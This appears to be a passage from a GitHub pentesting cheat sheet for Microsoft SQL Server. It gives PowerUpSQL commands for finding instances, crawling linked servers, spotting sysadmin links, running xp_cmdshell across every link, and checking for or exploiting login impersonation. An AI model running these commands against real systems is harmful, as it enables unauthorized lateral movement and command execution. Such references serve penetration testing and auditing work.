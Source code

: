 #### Gather information
- If connection succes! Connect to the DB with heidiSQL and look in it!
```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

### Database links
#### Search for links to remote servers
```
Get-SQLServerLink -Instance <SQL INSTANCE> -Verbose
```

#### Crawl links to remote servers
```
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> -Verbose
```

#### Crawl links and show servers where we are sysadmin
```
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> | Where-Object -Property sysadmin -Match 1
```

#### Crawl and try to use xp_cmdshell on every link
```
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> -Query 'exec master..xp_cmdshell ''whoami'''
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> -Query 'exec master..xp_cmdshell ''whoami''' | Where-Object CustomQuery
```

### Audit
#### Audit for issues
```
Invoke-SQLAudit -Verbose -Instance <SQL INSTANCE>
```

### Exploitation
#### Impersonation attack
#### Check if impersonation is possible
```
Invoke-SQLAuditPrivImpersonateLogin -Instance <SQL INSTANCE> -Verbose -Debug -Exploit
```

#### Check for impersonation through link
```
Get-SQLServerLinkCrawl -Instance <INSTANCE> -Verbose -Query 'SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = ''IMPERSONATE'''
```

#### Check if impersonation is possible
```
-- Find users that can be impersonated
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```
